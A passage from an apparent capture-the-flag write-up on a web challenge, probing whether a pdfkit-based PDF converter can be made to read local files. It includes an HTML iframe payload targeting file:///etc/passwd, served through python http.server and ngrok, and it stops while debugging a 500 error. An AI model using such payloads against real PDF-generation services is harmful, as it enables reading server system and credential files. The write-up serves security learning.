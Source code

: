 Let's test whether library pdfkit function `from_string` vulnerable to SSRF or not!

To do so, we'll need to create an HTML file, which might allow us to read arbitrary files via `<iframe>` element and URL scheme (`file://`):

```html
<iframe src="file:///etc/passwd" width="1000px" height="1000px"></iframe>
```

> Note: In our typical browser, we can't use URL scheme to read arbitrary due to the browser's sandbox. If you can, congrats! You found a browser sandbox escape vulnerability! In some PDF generators, they might disable the sandbox and enable the user to use the URL scheme.

After that, we can host the HTML file via Python `http.server` module and port forwarding the web server via `ngrok`, so that external network can access it: 

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Webpage-to-PDF-(2))-[2024.11.14|20:23:23(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Webpage-to-PDF-(2))-[2024.11.14|20:23:27(HKT)]
└> ngrok http 8000        
[...]
Forwarding                    https://1ea2-{REDACTED}.ngrok-free.app -> http://localhost:8000
```

Now, let's try to convert our payload to a PDF file!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2024/images/Pasted%20image%2020241114202539.png)

As we can see, it doesn't work. The POST route returned HTTP status code "500 Internal Server Error".

Huh, why?

To better understand the error, we should build a local environment:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Webpage-to-PDF-(2))-[2024.11.14|20:27:32(HKT)]
└> docker compose up    
[...]
Attaching to chal-1
chal-1  |  * Serving Flask app 'main'
chal-1  |  * Debug mode: off
chal-1  | WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
chal-1  |  * Running on all addresses (0.0.0.0)
chal-1  |  * Running on http://127.0.0.1:5000
chal-1  |  * Running on http://172.19.0.2:5000
chal-1  | Press CTRL+C to quit
```

Then, we send the same request again, and we should see an error in our Docker container's log message:
